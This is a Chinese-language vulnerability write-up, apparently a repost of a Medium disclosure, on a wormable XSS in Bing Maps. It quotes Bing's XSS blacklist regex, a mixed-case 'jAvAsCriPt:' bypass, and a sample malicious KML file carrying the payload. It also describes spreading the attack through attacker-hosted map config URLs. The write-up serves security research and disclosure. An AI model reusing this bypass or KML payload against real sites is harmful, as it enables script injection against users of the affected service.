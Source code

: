 正如所示，我成功通过恶意的 KML 文件pwn.kml  
 利用核心属性为地图添加样式，包括插入气泡（Balloon）、文本描述（Text Description），甚至嵌入 HTML 标记（HTML markdown）。  
  
在此阶段，我将注意力转向绕过 XSS 黑名单，以通过自定义地图触发任意 JavaScript 执行。  
  
现有的 KML HTML/XSS 黑名单存储在https://r.bing.com/rp/FOkRg4MAeRHIuQBOa98npjZOg44.gz.js  
 中，其内容如下：  
```
[...]
n._htmlBlacklist=/on[a-zA-Z]{3,}=|(url|expression|alert)(\(|%)|(<|&[a-zA-Z0-9#];|\\u003c)(iframe|script|style|form|\?|\!)javascript:|console\.|document\.|window\./gi,
n.isPossibleXss=function(n){
returnthis._htmlBlacklist.test(n)
}
[...]
```  
  
我发现该黑名单存在的一个漏洞是未能处理大小写混合的字符。由于此漏洞，以下输入可以绕过 XSS/HTML 黑名单测试：  
```
jAvAsCriPt:(confirm)(1337)
```  
  
**pwn.kml 示例**  
  
以下是一个简化的示例，展示如何使用 XSS 绕过并将恶意负载存储在 KML 文件中：  
```
<?xml version="1.0"standalone="yes"encoding="UTF-8"?>
<kmlxmlns="http://www.opengis.net/kml/2.2"xmlns:atom="http://www.w3.org/2000/xmlns/">

[...]
<Folder>
<Placemark>
<description>
<![CDATA[
<ahref="jAvAsCriPt:(confirm)(1337)">Visit My Website</a>
]]>
</description>
</Placemark>
</Folder>
</kml>
```  
## 蠕虫式 XSS 因素  
- 攻击者能够激活或停用包含被篡改配置地图的恶意主机。这使他们可以在攻击失败时停用主机，从而增加追踪攻击的难度。  
- 攻击者可以设置多个端点来托管恶意地图，从而扩展攻击规模。  
  
通过重新审查用于与受害者分享的 URL，例如：https://www.bing.com/maps/configurable?config=[https://attacker-host.com]，攻击者可以使用多个主机，比如 https://attacker-host1.com、https://attacker-host2.com、https://attacker-host3.com 等。  
  
- 受害者不仅可能因为 www.bing.com  
 上的 XSS 漏洞而遭受攻击，还可能受到其他属于 Microsoft 服务生态系统的 Web 应用程序的攻击（这些应用程序允许来自 *.bing.com 的请求）。  
## 漏洞点评  
  
关注页面渲染的时候加载外部连接的内容，通过控制其中的属性值绕过过滤从而插入XSS语句最终完成攻击。  
  
Thanks for: https://medium.com/@pedbap/wormable-xss-www-bing-com-7d7cb52e7a12  
  
